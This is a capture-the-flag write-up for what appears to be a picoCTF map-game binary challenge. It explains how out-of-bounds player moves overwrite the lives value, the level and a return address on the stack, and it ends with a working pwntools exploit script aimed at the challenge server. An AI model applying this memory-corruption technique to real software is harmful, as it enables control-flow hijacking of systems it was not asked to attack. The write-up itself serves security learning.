

### Problem 

Retreive the flag


In this problem the `win()` function is called but there is a condition in it which must be set true in order to get the flag

```c
void win(int *param_1)

{
  char local_4c [60];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts("Please create \'flag.txt\' in this directory with your own debugging flag.");
    fflush(_stdout);
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(local_4c,0x3c,local_10);
  if (*param_1 == 5) {
    printf(local_4c);
    fflush(_stdout);
  }
  return;
}
```

Now our main concern is that in the main the value of param_1 can never be 5 so we have to change it by moving out of the map.

```c
  do {
    userInput = getchar();
    userChar = (char)userInput;
    move_player(&pos1,(int)userChar,map,&level);
    print_map(map,&pos1,&level);
    if (((pos1 == 0x1d) && (pos2 == 0x59)) && (level != 4)) {
      puts("You win!\n Next level starting ");
      local_14 = local_14 + 1;
      level = level + 1;
      init_player(&pos1);
      init_map(map,&pos1,&level);
    }
  } while (((pos1 != 0x1d) || (pos2 != 0x59)) || ((level != 5 || (local_14 != 4))));
  win(&level);
```

So in order to move out of the loop we not only have to change the level but also the local_14 variable which means we have to enter the if block without checking the conditions because level can never be 5.

We also have to change lives inorder to move around the map freely.

So first we increase the life, then change the level by changing the return address of `move_player()` so that the if conditions are never executed and at the end we also have to skip the while conditons
because the pos1 and pos2 can never be 0x1d and 0x59 since we are never going to move to the end of the map.


Now we will use gdb to find out all the addresses we have to change.



The map is at `0xffffc23f`

The return address is at `0xffffc20c` and the value at this address is `0x804992c`
The offset from the start of the map is `51`

We have to change this to the address which changes the level.
We can disassemble the game using ghidra or gdb.
The address which we can jump to is `0x0804997f`

Since there is only 1 byte difference between the return address we can use the `move_player()` method to change it 
Since `7f` cannot be written with we will use python for this

Next we have to change lives 

The player variable is at `0xffffc230` the lives is at `<player>+0x8` ie `0xffffc238`
Which is at an offset of `7` from the map
Life is an integer so we have to change the last 3 bytes inorder to increase it which means we have to move to offset `5` and change it

Now after we change the life we can simply move ahead to change level which will be `47` steps behind life 


```python
from pwn import *

chall = remote('rhea.picoctf.net', 60584)
for level in range(1,5):
    payload =b'a'*5 + b'w'*4 + b'a'*4 + b'l\x7f'
    chall.sendlineafter(b'X\n', payload)
    payload = b's' + b'a'*46 + b'w' 
    chall.sendlineafter(b'X\n',payload)
    print(payload)

payload =b'a'*5 + b'w'*4 + b'a'*4 + b'l\xfe'
chall.sendlineafter(b'X\n',payload)

payload = b's'  +b'a'*46 + b'w'
chall.sendlineafter(b'X\n',payload)
chall.interactive()
```
